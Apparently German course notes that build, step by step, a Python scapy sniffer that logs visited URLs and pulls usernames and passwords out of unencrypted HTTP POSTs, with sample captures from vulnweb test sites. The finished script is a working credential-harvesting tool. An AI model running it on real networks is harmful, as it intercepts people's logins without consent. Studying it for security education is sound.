






Login Seite ohne SSL: [*](http://www.testyou.in/Login.aspx)


# Erster Versuch

```python
import scapy.all as scapy

def sniff(interface):
    scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)

def process_sniffed_packet(packet):
    print(packet)

print("Network Sniffer")
sniff("eth0")
```


# Filter

Syntax: Berkeley Packet Filter (BPF)

- [wikipedia](https://en.wikipedia.org/wiki/Berkeley_Packet_Filter)

- [doc](https://docs.extrahop.com/8.5/bpf-syntax/)

- [IBM](https://www.ibm.com/docs/en/qsip/7.4?topic=queries-berkeley-packet-filters)

- [biot.com](https://biot.com/capstats/bpf.html)


```python
scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet, filter="arp")
```

Dieser Filter wird aber im Kurs nicht weiter verwendet da nicht für http geeignet.

Stattdessen "Filter" in der if Anweisung:

```python
def process_sniffed_packet(packet):
    if packet.haslayer(http.HTTPRequest):
        packet.show()
        print()
```

Anmerkung zum Video: `scapy-http` muss nicht mehr extra installiert werden sondern ist im Standard Funktionsumfang enthalten.


## Extracting fields

Passwörter werden als POST im Raw Teil des Packets übertragen.

```python
import scapy.all as scapy
from scapy.layers import http

def sniff(interface):
    scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)

def process_sniffed_packet(packet):
    if packet.haslayer(http.HTTPRequest) and packet.haslayer(scapy.Raw):
        packet.show()
        print()

print("Network Sniffer")
sniff("eth0")

```


```
###[ Ethernet ]### 
  dst       = e0:28:6d:7b:fa:91
  src       = 00:0c:29:97:77:0a
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 565
     id        = 56213
     flags     = DF
     frag      = 0
     ttl       = 64
     proto     = tcp
     chksum    = 0x2b55
     src       = 192.168.178.81
     dst       = 18.192.172.30
     \options   \
###[ TCP ]### 
        sport     = 45542
        dport     = http
        seq       = 3102617925
        ack       = 1418060487
        dataofs   = 8
        reserved  = 0
        flags     = PA
        window    = 501
        chksum    = 0x3400
        urgptr    = 0
        options   = [('NOP', None), ('NOP', None), ('Timestamp', (610003459, 2475676676))]
###[ HTTP 1 ]### 
###[ HTTP Request ]### 
           Method    = 'POST'
           Path      = '/userinfo.php'
           Http_Version= 'HTTP/1.1'
           A_IM      = None
           Accept    = 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8'
           Accept_Charset= None
           Accept_Datetime= None
           Accept_Encoding= 'gzip, deflate'
           Accept_Language= 'en-US,en;q=0.5'
           Access_Control_Request_Headers= None
           Access_Control_Request_Method= None
           Authorization= None
           Cache_Control= None
           Connection= 'keep-alive'
           Content_Length= '18'
           Content_MD5= None
           Content_Type= 'application/x-www-form-urlencoded'
           Cookie    = None
           DNT       = None
           Date      = None
           Expect    = None
           Forwarded = None
           From      = None
           Front_End_Https= None
           HTTP2_Settings= None
           Host      = 'testphp.vulnweb.com'
           If_Match  = None
           If_Modified_Since= None
           If_None_Match= None
           If_Range  = None
           If_Unmodified_Since= None
           Keep_Alive= None
           Max_Forwards= None
           Origin    = 'http://testphp.vulnweb.com'
           Permanent = None
           Pragma    = None
           Proxy_Authorization= None
           Proxy_Connection= None
           Range     = None
           Referer   = 'http://testphp.vulnweb.com/login.php'
           Save_Data = None
           TE        = None
           Upgrade   = None
           Upgrade_Insecure_Requests= '1'
           Upgrade_Insecure_Requests= '1'
           User_Agent= 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0'
           Via       = None
           Warning   = None
           X_ATT_DeviceId= None
           X_Correlation_ID= None
           X_Csrf_Token= None
           X_Forwarded_For= None
           X_Forwarded_Host= None
           X_Forwarded_Proto= None
           X_Http_Method_Override= None
           X_Request_ID= None
           X_Requested_With= None
           X_UIDH    = None
           X_Wap_Profile= None
           Unknown_Headers= None
###[ Raw ]### 
              load      = 'uname=ppp&pass=sdf'
```


Links zu Webseiten zum Testen von user/passwort login ohne Verschlüsselung:

- [www.stealmylogin.com](https://www.stealmylogin.com/demo.html)

  Auf der Website steht zwar:  

  > Even though the form is being submitted to a secure (HTTPS) page, your login info can be easily stolen.

  Aber die Übertragung ist trotzdem verschlüsselt! Zumindest sieht es so aus.

- [testphp.vulnweb.com](http://testphp.vulnweb.com/login.php)
  **Funktioniert**.
  
- [testhtml5.vulnweb.com](http://testhtml5.vulnweb.com/) – Login Button


```python
import scapy.all as scapy
from scapy.layers import http

def sniff(interface):
    scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)

def process_sniffed_packet(packet):
    #packet.Method==b'POST'
    if packet.haslayer(http.HTTPRequest) and packet.haslayer(scapy.Raw):
        #packet.show()
        print(packet.Method)            # b'POST'
        
        # nur den Layer mit den Daten ausgeben
        print(packet[scapy.Raw])        # b'uname=user3&pass=passssss'
        print(type(packet[scapy.Raw]))  # <class 'scapy.packet.Raw'>
        
        # Die Daten (von Web-Form)
        print(packet.load)              # b'uname=user3&pass=passssss'
        print(type(packet.load))        # <class 'bytes'>
        print(packet[scapy.Raw].load)   # b'uname=user3&pass=passssss'
        print(packet.load.decode('utf-8'))  # 'uname=user3&pass=passssss'
        print()
        # http://testphp.vulnweb.com/login.php


print("Network Sniffer")
sniff("eth0")
```


Vermutung – Felder können entweder global angegeben werden (`packet.load`) oder aber über das Layer Objekt (`packet[scapy.Raw].load`)

Nach mehreren Schlüsselwörtern suchen:



## Extracting URLs







Code Refactoring











### Python3

```python
# byte array in string wandeln
str(url)

# oder

url.decode() # utf-8 ist default
```


## Komplett

`packet.show()`:

```
###[ Ethernet ]### 
  dst       = e0:28:6d:7b:fa:91
  src       = 00:0c:29:97:77:0a
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 571
     id        = 13537
     flags     = DF
     frag      = 0
     ttl       = 64
     proto     = tcp
     chksum    = 0xd203
     src       = 192.168.178.81
     dst       = 18.192.172.30
     \options   \
###[ TCP ]### 
        sport     = 39730
        dport     = http
        seq       = 2103520708
        ack       = 3098765921
        dataofs   = 8
        reserved  = 0
        flags     = PA
        window    = 501
        chksum    = 0x3406
        urgptr    = 0
        options   = [('NOP', None), ('NOP', None), ('Timestamp', (770419132, 2635265817))]
###[ HTTP 1 ]### 
###[ HTTP Request ]### 
           Method    = 'POST'
           Path      = '/userinfo.php'
           Http_Version= 'HTTP/1.1'
           A_IM      = None
           Accept    = 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8'
           Accept_Charset= None
           Accept_Datetime= None
           Accept_Encoding= 'gzip, deflate'
           Accept_Language= 'en-US,en;q=0.5'
           Access_Control_Request_Headers= None
           Access_Control_Request_Method= None
           Authorization= None
           Cache_Control= None
           Connection= 'keep-alive'
           Content_Length= '24'
           Content_MD5= None
           Content_Type= 'application/x-www-form-urlencoded'
           Cookie    = None
           DNT       = None
           Date      = None
           Expect    = None
           Forwarded = None
           From      = None
           Front_End_Https= None
           HTTP2_Settings= None
           Host      = 'testphp.vulnweb.com'
           If_Match  = None
           If_Modified_Since= None
           If_None_Match= None
           If_Range  = None
           If_Unmodified_Since= None
           Keep_Alive= None
           Max_Forwards= None
           Origin    = 'http://testphp.vulnweb.com'
           Permanent = None
           Pragma    = None
           Proxy_Authorization= None
           Proxy_Connection= None
           Range     = None
           Referer   = 'http://testphp.vulnweb.com/login.php'
           Save_Data = None
           TE        = None
           Upgrade   = None
           Upgrade_Insecure_Requests= '1'
           Upgrade_Insecure_Requests= '1'
           User_Agent= 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0'
           Via       = None
           Warning   = None
           X_ATT_DeviceId= None
           X_Correlation_ID= None
           X_Csrf_Token= None
           X_Forwarded_For= None
           X_Forwarded_Host= None
           X_Forwarded_Proto= None
           X_Http_Method_Override= None
           X_Request_ID= None
           X_Requested_With= None
           X_UIDH    = None
           X_Wap_Profile= None
           Unknown_Headers= None
###[ Raw ]### 
              load      = 'uname=test&pass=pass1234'
```


```python
from logging import log
import scapy.all as scapy
from scapy.layers import http

def sniff(interface):
    scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)

def get_url(packet):
    return (packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path).decode()

def get_login_info(packet):
    load = packet[scapy.Raw].load.decode()
    keywords = ["uname","name","username","pass","password"]
    for keyword in keywords:
        if keyword in load:
            return load
    # http://testphp.vulnweb.com/login.php
    # http://testhtml5.vulnweb.com

def process_sniffed_packet(packet):
    if packet.haslayer(http.HTTPRequest):
        #packet.show()
        print("[+] URL >> "+get_url(packet))

        if packet[http.HTTPRequest].Content_Type==b'application/x-www-form-urlencoded' and packet.haslayer(scapy.Raw):
            login_info = get_login_info(packet)
            if login_info:
                print("\n\n possible username/password >> "+login_info+"\n\n")

print("Network Sniffer")
sniff("eth0")

```

`packet[http.HTTPRequest].Content_Type==b'application/x-www-form-urlencoded'` hinzugefügt um Zugriff auf nicht Text Daten in `scapy.Raw`  zu verhindern (führt zu einem decode Fehler)

```
[+] URL >> testhtml5.vulnweb.com/ajax/popular?offset=0
[+] URL >> testhtml5.vulnweb.com/static/app/partials/itemsList.html
[+] URL >> testhtml5.vulnweb.com/login


 possible username/password >> username=admin&password=sdfsaf


[+] URL >> testhtml5.vulnweb.com/
[+] URL >> netdna.bootstrapcdn.com/twitter-bootstrap/2.3.1/css/bootstrap-combined.min.css
[+] URL >> fonts.googleapis.com/css?family=Lora:400,700,400italic,700italic
[+] URL >> testhtml5.vulnweb.com/static/css/style.css
[+] URL >> code.jquery.com/jquery-1.9.1.min.js
[+] URL >> netdna.bootstrapcdn.com/twitter-bootstrap/2.3.1/js/bootstrap.min.js
[+] URL >> testhtml5.vulnweb.com/static/app/app.js
[+] URL >> testhtml5.vulnweb.com/static/app/libs/sessvars.js
[+] URL >> testhtml5.vulnweb.com/static/app/post.js
[+] URL >> testhtml5.vulnweb.com/static/app/controllers/controllers.js
[+] URL >> testhtml5.vulnweb.com/static/app/services/itemsService.js
[+] URL >> bxss.s3.amazonaws.com/ad.js
```

